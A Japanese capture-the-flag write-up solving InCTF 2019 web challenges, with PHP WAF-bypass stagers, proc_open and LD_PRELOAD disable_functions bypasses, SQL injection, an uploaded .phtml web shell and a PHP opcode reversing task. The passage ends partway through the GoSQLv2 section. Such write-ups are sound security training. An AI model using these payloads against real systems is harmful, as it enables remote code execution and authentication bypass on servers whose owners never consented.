

9 月 21 日から 9 月 23 日にかけて開催された [InCTF 2019](https://ctf.inctf.in/) に、チーム Harekaze として参加しました。最終的にチームで 6007 点を獲得し、順位は得点 433 チーム中 5 位でした。うち、私は 8 問を解いて 4026 点を入れました。

以下、私が解いた問題の write-up です。

## Web
### PHP+1 (100)
> Bypass WAF and get me shell.
> 
> (URL)

与えられた URL にアクセスすると、以下のような PHP のコードが表示されました。

```php
<?php

$input = $_GET['input'];

function check(){
  global $input;
  foreach (get_defined_functions()['internal'] as $blacklisted) {
      if (preg_match ('/' . $blacklisted . '/im', $input)) {
          echo "Your input is blacklisted" . "<br>";
          return true;
          break;
      }
  }
  $blacklist = "exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\'";
  unset($blacklist);
  return false;
}

$thisfille=$_GET['thisfile'];

if(is_file($thisfille)){
  echo "You can't use inner file" . "<br>";
}
else{
  if(file_exists($thisfille)){
    if(check()){
      echo "Naaah" . "<br>";
    }else{
      eval($input);
    }
  }else{
    echo "File doesn't exist" . "<br>";
  }

}

function iterate($ass){
    foreach($ass as $hole){
        echo "AssHole";
    }
}

highlight_file(__FILE__);
?>
```

`is_file($_GET['thisfile'])` が偽で、かつ `file_exists($_GET['this_file'])` が真であれば `check()` を通した後に `$_GET['input']` が `eval` で実行されるようです。まずは `$_GET['thisfile']` をなんとかしていきましょう。

PHP のマニュアルを見てみると、[`is_file`](https://www.php.net/manual/ja/function.is-file.php) は「ファイルが存在し、かつそれが通常のファイルである場合に TRUE、 それ以外の場合に FALSE を返し」、[`file_exists`](https://www.php.net/manual/ja/function.file-exists.php) は「filename で指定したファイルまたはディレクトリが存在すれば TRUE を返し、そうでなければ FALSE を返」すとわかります。後者ではディレクトリであっても存在していれば `TRUE` を返すことを利用して、`thisfile=/` を GET パラメータに追加すると、`You can't use inner file` とも `File doesn't exist` とも表示されず、`check()` によるチェックの部分まで進めたことが確認できました。

`check()` で何がチェックされているか確認しましょう。まず `get_defined_functions()['internal']` の要素についてそれぞれ `$_GET['input']` に含まれていないかチェックし、もし含まれていれば `true` を返す (= `eval` させない) ようです。`$blacklist` については `get_defined_functions()['internal']` の要素として含まれないけれど使ってほしくはない文字列 (言語構造) をチェックするための文字列…のようですが、フィルターを代入した後すぐに `unset($blacklist)` されているので意味がありません。

これで、定義済みの関数の名前さえ含まれていなければ `$_GET['input']` を `eval` してくれるとわかりました。PHP では [`eval`](https://www.php.net/manual/ja/function.eval.php) は言語構造であって `get_defined_functions()['internal']` には含まれないことを利用して、`eval($_GET[0])` に相当する stager 的なコードを書いて `check()` をバイパスしてみましょう。

今回は、

- 未定義の定数は、その定数の名前の文字列として扱われる ([PHP: 構文 - Manual](https://www.php.net/manual/ja/language.constants.syntax.php))
- `^` 演算子は文字列に対して使われた場合、ASCII コード同士を 1 文字ずつ XOR した文字列を返す ([PHP: ビット演算子 - Manual](https://www.php.net/manual/ja/language.operators.bitwise.php))

という PHP の不思議な仕様を利用します。入力したコードを 0xff と XOR した文字列と 0xff を XOR し、これを `eval` に投げる PHP コードを生成してくれる Python スクリプトを書きましょう。

```python
import urllib.parse
code = b'eval($_GET[0]);'
code = bytes(c ^ 0xff for c in code)
code = b'eval(' + code + b'^' + b'\xff' * len(code) + b');'
print(urllib.parse.quote(code))
```

```
$ python generate.py
eval%28%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B
```

`input=eval%28%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B` と `0=var_dump(1);` を GET パラメータに追加すると `int(1)` と表示され、無事に `eval($_GET[0])` が実行されていることが確認できました。

あとはやるだけ…かと思いきや、`passthru('ls');` を実行してみても何も表示されません。`phpinfo();` で確認してみると、`passthru` が以下のように `disable_functions` で無効化されていました。

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,system,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,error_log,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir
```

`exec` `system` `shell_exec` など、OS コマンドを実行できる関数が軒並み無効化されています。この制限を回避して OS コマンドを実行できないか [PHP: プログラム実行関数 - Manual](https://www.php.net/manual/ja/ref.exec.php)を眺めていると、[`proc_open`](https://www.php.net/manual/ja/function.proc-open.php) が `disable_functions` から漏れていることがわかりました。これを利用しましょう。

`$proc=proc_open('/bin/ls -la /',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1]));` で `/readFlag` という実行ファイルの存在が確認できました。`$proc=proc_open('/readFlag',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1]));` でフラグが得られました。

```
inctf{That-w4s-fun-bypassing-php-waf:SpyD3r}
```

### PHP+1.5 (100)
> Bypass Good WAF and get me shell.
> 
> (URL)

PHP+1 の続きのようです。diff を取ってみましょう。

```diff
>diff -u "..\PHP+1\index.php" index.php
--- "..\\PHP+1\\index.php"      2019-09-22 06:23:22.495435800 +0900
+++ index.php   2019-09-22 06:23:42.992960100 +0900
@@ -12,6 +12,11 @@
       }
   }
   $blacklist = "exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\'";
+  if(preg_match("/$blacklist/i", $input)){
+    echo "Do you really you need that?" . "<br>";
+    return true;
+  }
+
   unset($blacklist);
   return false;
 }
```

PHP+1 では意味のなかった `$blacklist` が `preg_match` でユーザ入力の確認に使われるようになっていることが確認できました。これでは `eval` が使えず、PHP+1 のコードをそのまま使うことができません。別の方法を探しましょう。

PHP には (PHP 7.2 以降では deprecated になっているものの) [`create_function`](https://www.php.net/manual/ja/function.create-function.php) という、無名関数を作ることができる関数があります。これを使えば、`create_function('','var_dump(1);')();` のようにすることで `eval` 相当のことができるはずです。

PHP では「変数名の後に括弧が付いている場合、その値が何であろうと PHPは、同名の関数を探し実行を試み」る ([PHP: 可変関数 - Manual](https://www.php.net/manual/ja/functions.variable-functions.php)) ことも利用しながら、`create_function('','eval($_GET[0]);')();` 相当のコードを生成する Python スクリプトを書きましょう。

```python
import urllib.parse

def f(s):
  s = bytes(c ^ 0xff for c in s)
  return s + b'^' + b'\xff' * len(s)

code = b'$a=' + f(b'create_function') + b';$b=$a(NULL,' + f(b'eval($_GET[0]);') + b');$b();'
print(urllib.parse.quote(code))
```

```
$ python generate.py
%24a%3D%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%3B%24b%3D%24a%28NULL%2C%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B%24b%28%29%3B
```

`0=var_dump(1);` と `thisfile=/` 、`input=%24a%3D%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%3B%24b%3D%24a%28NULL%2C%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B%24b%28%29%3B` を GET パラメータに追加すると `int(1)` と表示されました。

あとは PHP+1 と同じです。`$proc=proc_open('/readFlag',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1]));` でフラグが得られました。

```
inctf{LOL!!That_was_warmup_Try_PHP+2}
```

### PHP+2.5 (744)
> Last challenge, can you solve PHP+2.5?
> 
> (URL)

PHP+1.5 の続きのようです。diff を取ってみましょう。

```diff
>diff -u "..\PHP+1.5\index.php" index.php
--- "..\\PHP+1.5\\index.php"    2019-09-22 06:23:42.992960100 +0900
+++ index.php   2019-09-22 22:46:04.104111300 +0900
@@ -18,6 +18,10 @@
   }

   unset($blacklist);
+  if(strlen($input)>100){  #That is random no. I took ;)
+    echo "This is getting really large input..." . "<br>";
+    return true;
+  }
   return false;
 }
```

ユーザ入力が 100 文字以下であるかどうかのチェックが加えられたようです。PHP+1.5 と同じコードが利用できます。`$proc=proc_open('/readFlag',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1]));` `thisfile=/` 、`input=%24a%3D%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%3B%24b%3D%24a%28NULL%2C%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B%24b%28%29%3B` を GET パラメータに追加するとフラグが得られました。

```
inctf{Getting_segmentation_fault is_fun}
```

### s3cur3-r3v (856)
> Reverse this ;)
> 
> (URL)

以下のようなコードが与えられました。

```
line     #* E I O op                           fetch          ext  return  operands
-------------------------------------------------------------------------------------
   2     0  E >   NOP                                                      
  51     1        FETCH_R                      global              $1      '_GET'
         2        FETCH_DIM_R                                      $2      $1, 'flag'
         3        ASSIGN                                                   !0, $2
  53     4        FETCH_IS                                         $4      '_GET'
         5        ISSET_ISEMPTY_DIM_OBJ                       33554432  ~5      $4, 'flag'
         6      > JMPZ                                                     ~5, ->10
  54     7    >   INIT_FCALL                                               'printflag'
         8        SEND_VAR                                                 !0
         9        DO_FCALL                                      0          
  58    10    > > RETURN                                                   1

line     #* E I O op                           fetch          ext  return  operands
-------------------------------------------------------------------------------------
   2     0  E >   RECV                                             !0      
   3     1        ASSIGN                                                   !1, 'Yaay+here+is+your+flag%3A+'
   4     2        ASSIGN                                                   !2, 'Naay+try+harder+%21%21%21'
   6     3        BIND_GLOBAL                                              !3, 'flag'
   8     4        ASSIGN                                                   !4, ''
  10     5        ASSIGN                                                   !5, 32
         6      > JMP                                                      ->13
  12     7    >   INIT_FCALL                                               'chr'
         8        SEND_VAR                                                 !5
         9        DO_ICALL                                         $16     
        10        ASSIGN_CONCAT                                 0          !4, $16
  10    11        POST_INC                                         ~18     !5
        12        FREE                                                     ~18
        13    >   IS_SMALLER                                       ~19     !5, 97
        14      > JMPNZ                                                    ~19, ->7
  15    15    >   STRLEN                                           ~20     !0
        16        MOD                                              ~21     ~20, 4
        17        IS_NOT_EQUAL                                     ~22     ~21, 0
        18      > JMPZ                                                     ~22, ->20
  17    19    > > EXIT                                                     'BAD+INPUT'
  20    20    >   STRLEN                                           ~24     !0
        21        MUL                                              ~25     ~24, 3
        22        DIV                                              ~26     ~25, 4
        23        INIT_FCALL                                               'strrpos'
        24        SEND_VAR                                                 !0
        25        SEND_VAL                                                 '%60'
        26        DO_ICALL                                         $27     
        27        IS_SMALLER                                       ~28     0, $27
        28      > JMPZ                                                     ~28, ->37
        29    >   STRLEN                                           ~29     !0
        30        INIT_FCALL                                               'strrpos'
        31        SEND_VAR                                                 !0
        32        SEND_VAL                                                 '%60'
        33        DO_ICALL                                         $30     
        34        SUB                                              ~31     ~29, $30
        35        QM_ASSIGN                                        ~32     ~31
        36      > JMP                                                      ->38
        37    >   QM_ASSIGN                                        ~32     0
        38    >   SUB                                              ~33     ~26, ~32
        39        ASSIGN_DIM                                               !6
        40        OP_DATA                                                  ~33
  21    41        INIT_FCALL                                               'str_split'
        42        SEND_VAR                                                 !0
        43        DO_ICALL                                         $34     
        44        ASSIGN                                                   !7, $34
  22    45        ASSIGN                                                   !8, 0
  23    46        ASSIGN                                                   !9, <array>
  24    47        ASSIGN                                                   !5, 0
        48      > JMP                                                      ->110
  25    49    >   INIT_FCALL                                               'strpos'
        50        SEND_VAR                                                 !4
        51        FETCH_DIM_R                                      $40     !7, !5
        52        SEND_VAR                                                 $40
        53        DO_ICALL                                         $41     
        54        ASSIGN_DIM                                               !9, 0
        55        OP_DATA                                                  $41
  26    56        INIT_FCALL                                               'strpos'
        57        SEND_VAR                                                 !4
        58        ADD                                              ~43     !5, 1
        59        FETCH_DIM_R                                      $44     !7, ~43
        60        SEND_VAR                                                 $44
        61        DO_ICALL                                         $45     
        62        ASSIGN_DIM                                               !9, 1
        63        OP_DATA                                                  $45
  27    64        INIT_FCALL                                               'strpos'
        65        SEND_VAR                                                 !4
        66        ADD                                              ~47     !5, 2
        67        FETCH_DIM_R                                      $48     !7, ~47
        68        SEND_VAR                                                 $48
        69        DO_ICALL                                         $49     
        70        ASSIGN_DIM                                               !9, 2
        71        OP_DATA                                                  $49
  28    72        INIT_FCALL                                               'strpos'
        73        SEND_VAR                                                 !4
        74        ADD                                              ~51     !5, 3
        75        FETCH_DIM_R                                      $52     !7, ~51
        76        SEND_VAR                                                 $52
        77        DO_ICALL                                         $53     
        78        ASSIGN_DIM                                               !9, 3
        79        OP_DATA                                                  $53
  29    80        POST_INC                                         ~54     !8
        81        FETCH_DIM_R                                      $56     !9, 0
        82        SL                                               ~57     $56, 2
        83        FETCH_DIM_R                                      $58     !9, 1
        84        SR                                               ~59     $58, 4
        85        BW_OR                                            ~60     ~57, ~59
        86        ASSIGN_DIM                                               !6, ~54
        87        OP_DATA                                                  ~60
  30    88        FETCH_DIM_R                                      $61     !9, 2
        89        IS_SMALLER                                       ~62     $61, 64
        90      > JMPZ                                                     ~62, ->109
  31    91    >   POST_INC                                         ~63     !8
        92        FETCH_DIM_R                                      $65     !9, 1
        93        SL                                               ~66     $65, 4
        94        FETCH_DIM_R                                      $67     !9, 2
        95        SR                                               ~68     $67, 2
        96        BW_OR                                            ~69     ~66, ~68
        97        ASSIGN_DIM                                               !6, ~63
        98        OP_DATA                                                  ~69
  32    99        FETCH_DIM_R                                      $70     !9, 3
       100        IS_SMALLER                                       ~71     $70, 64
       101      > JMPZ                                                     ~71, ->109
  33   102    >   POST_INC                                         ~72     !8
       103        FETCH_DIM_R                                      $74     !9, 2
       104        SL                                               ~75     $74, 6
       105        FETCH_DIM_R                                      $76     !9, 3
       106        BW_OR                                            ~77     ~75, $76
       107        ASSIGN_DIM                                               !6, ~72
       108        OP_DATA                                                  ~77
  24   109    >   ASSIGN_ADD                                    0          !5, 4
       110    >   INIT_FCALL                                               'count'
       111        SEND_VAR                                                 !7
       112        DO_ICALL                                         $79     
       113        IS_SMALLER                                       ~80     !5, $79
       114      > JMPNZ                                                    ~80, ->49
  37   115    >   ASSIGN                                                   !10, ''
  38   116        ASSIGN                                                   !5, 0
       117      > JMP                                                      ->125
  40   118    >   INIT_FCALL                                               'chr'
       119        FETCH_DIM_R                                      $83     !6, !5
       120        SEND_VAR                                                 $83
       121        DO_ICALL                                         $84     
       122        ASSIGN_CONCAT                                 0          !10, $84
  38   123        POST_INC                                         ~86     !5
       124        FREE                                                     ~86
       125    >   INIT_FCALL                                               'count'
       126        SEND_VAR                                                 !6
       127        DO_ICALL                                         $87     
       128        IS_SMALLER                                       ~88     !5, $87
       129      > JMPNZ                                                    ~88, ->118
  42   130    >   ASSIGN                                                   !11, 'YtPEU%10E%24%19%5DV%11UE%92E%04%D8%5De%99%5D5RQ%25SAU%98YuVU%16%10e%85%D1I%96%13Y%96%17M%85%D6E%85%D6Q%04V'
  43   131        IS_IDENTICAL                                     ~90     !10, !11
       132      > JMPZ                                                     ~90, ->136
  44   133    >   CONCAT                                           ~91     !1, !3
       134        ECHO                                                     ~91
       135      > JMP                                                      ->137
  47   136    >   ECHO                                                     !2
  49   137    > > RETURN                                                   null
```

これは Zend Engine のオペコードで、恐らく [vld](https://github.com/derickr/vld) の出力でしょう。vld を導入して `php -d vld.active=1 -d vld.execute=0 decompiled.php` みたいな感じで出力されたコードと先程のコードを見比べながらデコンパイルすると、以下のような PHP コードが出来上がりました。

```php
<?php
function printflag($a) { // !0
  $b = 'Yaay here is your flag: ';
  $c = 'Naay try harder !!!';

  global $flag;

  $e = '';

  for ($f = 32; $f < 97; $f++)
  {
    $e .= chr($f);
  }

  if (strlen($a) % 4 != 0)
  {
    die('BAD INPUT');
  }

  $g[] = (strlen($a) * 3 / 4) - (0 < strrpos($a, '`') ? strlen($a) - strrpos($a, '`') : 0);
  $h = str_split($a);
  $i = 0;
  $j = [];
  for ($f = 0; $f < count($h); $f += 4) {
    $j[0] = strpos($e, $h[$f]);
    $j[1] = strpos($e, $h[$f + 1]);
    $j[2] = strpos($e, $h[$f + 2]);
    $j[3] = strpos($e, $h[$f + 3]);
    $g[$i++] = ($j[0] << 2) | ($j[1] >> 4);
    if ($j[2] < 64) {
      $g[$i++] = ($j[1] << 4) | ($j[2] >> 2);
      if ($j[3] < 64)
        $g[$i++] = ($j[2] << 6) | $j[3];
    }
  }

  $k = '';
  for ($f = 0; $f < count($g); $f++)
  {
    $k .= chr($g[$f]);
  }
  $l = "YtPEU\x10E\x24\x19\x5DV\x11UE\x92E\x04\xD8\x5De\x99\x5D5RQ\x25SAU\x98YuVU\x16\x10e\x85\xD1I\x96\x13Y\x96\x17M\x85\xD6E\x85\xD6Q\x04V";
  if ($k === $l) {
    echo $b . $flag;
  } else

  echo $c;
}


$a = $_GET['flag'];

if (isset($_GET['flag'])) {
  printflag($a);
}
```

ちょっとややこしいコードですが、`strlen($a) * 3 / 4` (Base64 ではデコード前の文字列と比べてデコード後のバイト列の長さは 3/4 になる)、`$e` という 65 文字のテーブルの存在等から、改変された Base64 のデコードを行うコードであることが推測できます。デコード後に `$l` となるような文字列を探しましょう。

```
$ python
>>> import base64
>>> import string
>>> s = b"YtPEU\x10E\x24\x19\x5DV\x11UE\x92E\x04\xD8\x5De\x99\x5D5RQ\x25SAU\x98YuVU\x16\x10e\x85\xD1I\x96\x13Y\x96\x17M\x85\xD6E\x85\xD6Q\x04V"
>>> s = base64.b64encode(s)
>>> t1 = string.ascii_uppercase + string.ascii_lowercase + string.digits + '+/='
>>> t2 = ''.join(chr(c) for c in range(32, 97))
>>> s.decode().translate(str.maketrans(t1, t2))
'671015401209758154621038766973524253056867565180987129836987387618764016'
```

`flag=671015401209758154621038766973524253056867565180987129836987387618764016` を GET パラメータに追加するとフラグが得られました。

```
inctf{d1d_y0u_n0t_f1nd_th3_b453_64_3ncrypt10n_s000000_3asy}
```

### Copy-Cat (991)
> Are you good at Code-Review?
> 
> (URL)
> 
> 添付ファイル: Copy-Cat.zip

与えられた URL にアクセスすると、ログインフォームが表示されました。添付ファイルとしてソースコードが与えられているので、このページのソースコード (`login.php`) を確認しましょう。

```php
<?php

include("config.php");
include("functions.php");

session_start();

$user = $_POST['username'];
$pass = $_POST['password'];

$user = check($user);
$pass = check($pass);   //I know you are naughty!!


$sql = "SELECT username, password FROM inctf2019_cat WHERE username='" .$user ."' && password='" .$pass ."'";
$result = $conn->query($sql);


if ($result->num_rows > 0 || $_SESSION['logged']==1){
$_SESSION['logged'] = 1;
header("Location: admin.php");
}
else{
		echo "Incorrect Credentials"."<br>";
}

$conn->close();


?>
```

SQLi ができそうな雰囲気がありますが、事前にユーザ入力が `check()` に通されています。`check()` は `functions.php` で定義されていました。

```php
<?php
︙
function escape($str){
    global $conn;
    $str = $conn->real_escape_string($str);
    return $str;
}

function check($tocheck){
  $tocheck = trim(escape($tocheck));
  if(strlen($tocheck)<5){
    die("For God Sake, don't try to HACK me!!");
  }
  if(strlen($tocheck)>11){
    $tocheck = substr($tocheck, 0, 11);
  }
  return $tocheck;
}
︙
```

ユーザ入力を `real_escape_string` でエスケープした後、もし 12 文字以上であれば 11 文字まで切り詰めています。エスケープ後に切り詰められるという順番なので、例えば `aaaaaaaaaa'` を入力すると `aaaaaaaaaa\'` のようにエスケープされ、11 文字に切り詰められると `aaaaaaaaaa\` になります。これを利用すれば SQLi ができるはずです。

ユーザ名に `aaaaaaaaaa'`、パスワードに `or 1;#` を入力するとログインできましたが、`Sorry, It seems you are not Admin...are you? If yes, proove it then !!` と表示されました。こちらもソースコード (`remote_admin.php`) を確認しましょう。

```php
<?php

include "functions.php";
session_start();

is_login();

# If admin wants to open his website remotely

$remote_admin = create_function("",'if(isset($_SERVER["HTTP_I_AM_ADMIN"])){$_SERVER["REMOTE_ADDR"] = $_SERVER["HTTP_I_AM_ADMIN"];}');

$random = bin2hex(openssl_random_pseudo_bytes(32));

eval("function admin_$random() {"
  ."global \$remote_admin; \$remote_admin();"
  ."}");

send($random);

$_GET['random']();    //Only Admin knows next random value; You don't have to worry about HOW?

if($_SERVER['REMOTE_ADDR']=="127.0.0.1"){
  $_SESSION['admin'] = "True";
}


?>
```

`admin_(ランダムな文字列)` を推測できれば `$_SERVER["REMOTE_ADDR"]` を `$_SERVER["HTTP_I_AM_ADMIN"]` (`X-I-Am-Admin` ヘッダの値) に書き換えることができるようです。

このコードを見て思い出すのは HITCON CTF 2017 Quals で出題された [Baby^H Master PHP 2017](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017) です。`curl http://(省略)/remote_admin.php?random=%00lambda_1 -b "PHPSESSID=(セッション ID)" -H "I-Am-Admin: 127.0.0.1"` で admin になることができました。

これで `admin.php` にアクセスすることができるようになりました。`admin.php` `upload.php` は以下のような内容でした。

`admin.php`

```php
<?php
include "functions.php";
session_start();

is_login();
is_admin();

?>
<!DOCTYPE html>
<html>
<head><title>File-Upload</title>
</head>
   <body>
     <h1>Welcome Admin, You can upload ZIP file here</h1>
      <form action = "upload.php" method="POST" enctype="multipart/form-data">
         <input type="file" name="file" />
         <input type="submit" name="submit" value="Upload" />
      </form>
        <p><a href='logout.php'>Log Out</a></p>
   </body>
</html>
```

`upload.php`

```php
<?php
session_start();
include("functions.php");

is_login();
is_admin();

$SANDBOX = getcwd() . "/uploads/" . md5("xxSpyD3rxx" . $_SERVER["REMOTE_ADDR"] . "xxxisbackxxx");
@mkdir($SANDBOX);
@chdir($SANDBOX);

if (isset($_FILES['file'])) {
  ExtractZipFile($_FILES['file']['tmp_name'], $SANDBOX);
  CheckDir($SANDBOX);
  echo "File is at: " . "/uploads/" . md5("xxSpyD3rxx" . $_SERVER["REMOTE_ADDR"] . "xxxisbackxxx");
}


?>
```

ZIP ファイルをアップロードできるようです。`ExtractZipFile` `CheckDir` は `functions.php` で定義されています。

```php
<?php
︙
function ExtractZipFile($file,$path){
  $zip = new ZipArchive;
  if ($zip->open($file) === TRUE) {
    $zip->extractTo($path);
    $zip->close();
}
}

function CheckDir($path) {
    $files = scandir($path);
    foreach ($files as $file) {
        $filepath = "$path/$file";
        if (is_file($filepath)) {
            $parts = pathinfo($file);
            $ext = strtolower($parts['extension']);
            if (strpos($ext, 'php') === false &&
                strpos($ext, 'pl') === false &&
                strpos($ext, 'py') === false &&
                strpos($ext, 'cgi') === false &&
                strpos($ext, 'asp') === false &&
                strpos($ext, 'js') === false &&
                strpos($ext, 'rb') === false &&
		strpos($ext, 'htaccess') === false &&
                strpos($ext, 'jar') === false) {
                @chmod($filepath, 0666);
            } else {
                @chmod($filepath, 0666);    // just in case the unlink fails for some reason
                unlink($filepath);
            }
        } elseif ($file != '.' && $file != '..' && is_dir($filepath)) {
            CheckDir($filepath);
        }
    }
}
︙
```

ZIP に含まれるファイル名に `php` `pl` `py` `cgi` `asp` `js` `rb` `htaccess` `jar` が含まれていなければ、ドキュメントルート下にあるディレクトリに展開してくれるようです。

一部の環境ではデフォルトでも `pht` や `phtml` といった拡張子のファイルを PHP コードとして実行してくれるので、この問題でもそうであることを期待して `<?php eval($_GET[0]);` という内容の `a.phtml` を ZIP で固めてアップロードします。`/uploads/(省略)/a.phtml?0=var_dump(1);` にアクセスすると `int(1)` が出力されました。

`phpinfo();` を実行してみると、`disable_functions` が次のように設定されていることが確認できました。

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,proc_open,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,mail,fread,fopen,file_get_contents,readfile,chdir
```

PHP+なんとかシリーズの制限に更に `proc_open` が加えられています。これを回避して OS コマンドを実行できないでしょうか。

`disable_functions` を回避するテクニックとして、`LD_PRELOAD` に `__attribute__ ((__constructor__)) void f(void) { … };` のような関数を仕込んだ共有ライブラリを設定した上で、`mail` (最終的に [`popen` で `sendmail` を実行する `php_mail`](https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/ext/standard/mail.c#L574) が[呼ばれる](https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/ext/standard/mail.c#L369)) や `error_log` ([第二引数が 1 であれば `php_mail` が呼ばれる](https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/ext/standard/basic_functions.c#L4160-L4164))、`mbstring` が有効化されていれば `mb_send_mail` ([内部的に `php_mail` が呼ばれる](https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/ext/mbstring/mbstring.c#L4480)) を呼ぶことで、`sendmail` の実行時に先程の共有ライブラリの `f` が実行されるというものが知られています。

先程の `disable_functions` を見てみると、`mail` や `error_log` は無効化されていますが、`mb_send_mail` は使えることがわかります。試してみましょう。

まず、[Bypass disable_functions with LD_PRELOAD \| 1pwnch's Blog](https://blog.1pwnch.com/websecurity/2019/04/08/Bypass-disablefuncs-with-LDPRELOAD/) を参考に以下のような内容の `evil.c` を作ります。

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

__attribute__ ((__constructor__)) void neko(void) {
  unsetenv("LD_PRELOAD");
  const char *cmd = getenv("NYAN");
  system(cmd);
}
```

これを `gcc -shared -fPIC evil.c -o evil.so` でコンパイルして、ZIP に固めてアップロードします。先程の `a.phtml` で `putenv('LD_PRELOAD=/var/www/html/uploads/82295f449786f84f9cf8adec1fc7705f/evil.so');putenv('NYAN=/readFlag > /tmp/neko');mb_send_mail('','','');` を実行し、その後 `echo join(file('/tmp/neko'));` を実行するとフラグが得られました。

```
inctf{Ohh,you_are_the_ultimate_chainer,Bypassing_disable_function_wasn't_fun?:SpyD3r}
```

### GoSQLv2 (999)
> As you have solved GoSQL before, this is not gonna be that hard, because you know what to do!!!.
> 
> (URL)

与えられた URL にアクセスすると、以下のような PHP コードが表示されました。

```php
<?php
include("./config.php");
$conn = mysqli_connect($host,$dbuser,$dbpass,$dbname);
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}

$name = $_GET['name'];

$blacklist  = "pad|ad|min|\"|substr|mid|concat|char|ascii|left|right|for| |from|where|having|";
$blacklist .= "insert|username|\/|go_to|\||or|and|\\\|=|#|\.|\_|>|like|between|reg|&|load|file|glob|cast|out|0b|";
$blacklist .= "rev|0x|limit|decode|conv|hex|in|from|innodb|\^|union|benchmark|sleep|if|case|coalesce|max|strcmp|proc|exp|group|rand|floor|pow";

if (preg_match("/$blacklist/i", $name)){
  die("Try Hard");
}

$query="select * from inctf2018_chall_2 where username='" . $name . "'";
echo "<h4>query: " . $query . " </h4>";
$result=mysqli_query($conn,$query);
if($result){
  $row=mysqli_fetch_array($result);
  if($row['username']=="admin"){
      header("Location:{$row['go_to']}");
}
  else{
      echo "<h4>You are not admin " . "</h4>";
  }
}
else{
  echo "<h4>Having a query problem" . "</h4><br>";
}
highlight_file(__FILE__);
?>
```

めちゃくちゃ厳しいフィルターを通れば SQLi ができそうです。とりあえず `admin` としてログインしてみましょう。

MySQL では `'a' 'dmi' 'n' = 'admin'` となり、また水平タブや垂直タブも空白文字として使えることを利用して、`?name=a%27%09%27dmi%27%09%27b` にアクセスすると `did_you_try_last_year_link.php` にリダイレクトされました。

